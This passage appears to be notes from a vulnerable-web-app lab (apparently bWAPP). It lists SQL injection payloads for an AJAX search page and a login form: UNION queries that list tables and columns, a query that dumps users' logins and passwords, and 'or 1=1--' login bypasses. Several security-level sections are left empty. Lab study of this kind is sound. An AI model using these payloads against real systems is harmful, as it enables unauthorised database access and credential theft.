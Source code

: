 Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection (AJAX/JSON/jQuery) 💀
url: /sqli_10-2.php

sends get request using ajax
Use Burp

```
a%' UNION ALL SELECT table_schema,table_name, null, null, null, null, null from information_schema.tables;-- "
```
or url incoded 
```
a%25'%20UNION%20ALL%20SELECT%20table_schema%2ctable_name%2c%20null%2c%20null%2c%20null%2c%20null%2c%20null%20from%20information_schema.tables%3b--%20%22
```

```
a%' UNION ALL SELECT 1, column_name, null, null, null, null, null from information_schema.columns where table_name="users";--
```
```
blah%' union all select 1,login,password,email,secret,1, 1 from users --
```

### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection (Login Form/Hero) 💀
useing burp
```
ok' or 1=1--
```
```
login=ok' or 1=1-- "&password=ok' or 1=1--  
```
